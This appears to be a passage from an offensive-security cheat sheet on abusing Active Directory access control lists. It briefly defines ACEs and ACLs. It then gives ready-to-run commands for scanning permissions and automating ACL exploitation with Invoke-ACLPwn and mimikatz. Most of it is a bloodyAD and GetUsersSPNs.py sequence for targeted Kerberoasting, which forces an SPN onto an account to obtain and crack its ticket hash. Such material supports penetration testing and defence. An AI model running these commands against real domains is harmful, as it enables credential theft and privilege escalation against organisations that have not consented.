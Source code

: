 # Active Directory - Access Controls ACL/ACE

An **Access Control Entry (ACE)** is a specific permission granted or denied to a user or group for a particular resource, such as a file or directory. Each ACE defines the type of access allowed (e.g., read, write, execute) or denied.

An **Access Control List (ACL)** is a collection of Access Control Entries (ACEs) associated with a resource.    

* Check ACL for an User with [ADACLScanner](https://github.com/canix1/ADACLScanner).
	```ps1
	ADACLScan.ps1 -Base "DC=contoso;DC=com" -Filter "(&(AdminCount=1))" -Scope subtree -EffectiveRightsPrincipal User1 -Output HTML -Show
	```

* Automate ACL exploit [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn):
	```ps1
	./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'user1' -Domain 'domain.local' -Password 'Welcome01!'
	```


## GenericAll/GenericWrite

### User/Computer

* We can set a **SPN** on a target account, request a Service Ticket (ST), then grab its hash and kerberoast it.
	* Windows/Linux
		```ps1
		# Check for interesting permissions on accounts:
		bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get writable --otype USER --right WRITE --detail | egrep -i 'distinguishedName|servicePrincipalName'

		# Check if current user has already an SPN setted:
		bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get object <UserName> --attr serviceprincipalname

		# Force set the SPN on the account: Targeted Kerberoasting
		bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname -v 'ops/whatever1'

		# Grab the ticket
		GetUsersSPNs.py -dc-ip 10.10.10.10 'attack.lab/john.doe:Password123*' -request-user <UserName>

		# Remove the SPN
		bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname
		```
	* Windows only
		```ps1
		# Check for interesting permissions on accounts:
		Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
